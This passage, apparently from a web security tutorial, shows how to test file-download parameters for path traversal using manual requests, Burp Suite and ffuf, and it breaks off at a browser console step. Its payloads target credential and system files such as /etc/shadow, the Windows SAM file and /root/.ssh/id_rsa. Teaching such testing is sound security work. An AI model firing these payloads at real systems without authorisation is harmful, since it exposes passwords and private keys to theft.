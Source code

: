 **Try modifying the parameter** to escape directories:

```ini
file=../../../../etc/passwd
file=../../../../windows/win.ini
```

### Testing for Path Traversal in File Requests

#### Modify File Path Parameters

Find URLs with file parameters and modify them.

Original request:

```sql
GET /download?file=user-report.pdf
```

**Test with Path Traversal:**

```bash
GET /download?file=../../../../etc/passwd
GET /download?file=../../../../windows/win.ini
```

If the response contains file contents, it's vulnerable!

#### Intercept Requests with Burp Suite

- Open **Burp Suite → Proxy → Intercept Request**
- Modify:

```bash
file=../../../../etc/shadow file=../../../../etc/hosts
```

#### Automate Path Traversal Testing

Use **ffuf** to fuzz the `file` parameter:

```bash
ffuf -u "https://example.com/download?file=FUZZ" -w payloads.txt
```

Example **payloads.txt**:

```bash
../../../../etc/passwd
../../../../windows/system32/config/SAM
../../../../var/log/syslog
../../../../root/.ssh/id_rsa
```

### Manipulating Browser-Based File Access

#### Try Loading Local Files

Open **DevTools Console (****`F12`****)** and run:

